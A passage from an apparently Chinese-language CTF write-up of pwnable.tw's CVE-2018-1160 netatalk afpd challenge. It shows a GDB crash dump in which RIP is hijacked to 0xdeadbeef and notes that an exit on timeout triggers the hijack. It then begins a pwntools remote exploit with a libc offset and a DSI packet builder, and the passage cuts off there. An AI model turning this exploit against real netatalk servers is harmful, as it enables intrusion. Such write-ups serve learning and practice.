 ```c
$rip   : 0xdeadbeef        
$r8    : 0x1               
$r9    : 0x0               
$r10   : 0x00007ffce77c8690  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x1               
$r14   : 0x00007f863ae35708  →  0x0000000000000000
$r15   : 0x00007f863ae31d80  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffce77c8738│+0x0000: 0x00007f863b6ffbaf  →  <_dl_fini+111> mov edx, DWORD PTR [rbx+0x8]	 ← $rsp
0x00007ffce77c8740│+0x0008: 0x0000000000000000
0x00007ffce77c8748│+0x0010: 0x0000000000000000
0x00007ffce77c8750│+0x0018: 0x0000000000000000
0x00007ffce77c8758│+0x0020: 0x0000000000000000
0x00007ffce77c8760│+0x0028: 0x0000000000000000
0x00007ffce77c8768│+0x0030: 0x0000000000000001
0x00007ffce77c8770│+0x0038: 0x00007f863ae30718  →  0x00007f863ae31d80  →  0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xdeadbeef
───────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "afpd", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────── trace ───
0x00000000deadbeef in ?? ()
The program being debugged was signaled while in a function called from GDB.
GDB remains in the frame where the signal was received.
To change this behavior use "set unwindonsignal on".
Evaluation of the expression containing the function
(__GI_exit) will be abandoned.
When the function is done executing, GDB will silently stop.
gef➤  
```

经过测试，本地子进程，将在连接断掉几分钟后退出，超时退出时即可触发exit，进而完成控制流劫持。

#### 远程完整exp

在[pwnable.tw CVE-2018-1160 Write up](https://katolik-xixon.tistory.com/244)中，提到远程版本为[ubuntu18.04.1](http://old-releases.ubuntu.com/releases/18.04.1/)，下载相同镜像，测试题目情况下，libc基址与_rtld_global偏移为 **0xed2060**:

```python
from pwn import *
context(endian='little')

ip   = "chall.pwnable.tw"
port = 10002
libc = ELF("./libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so")

def gen_dsi(data):
    dsi  = b'\x00\x04\x00\x01'
    dsi += p32(0)
    dsi += p32(len(data),endian='big')
    dsi += p32(0)
    dsi += data
    return dsi
```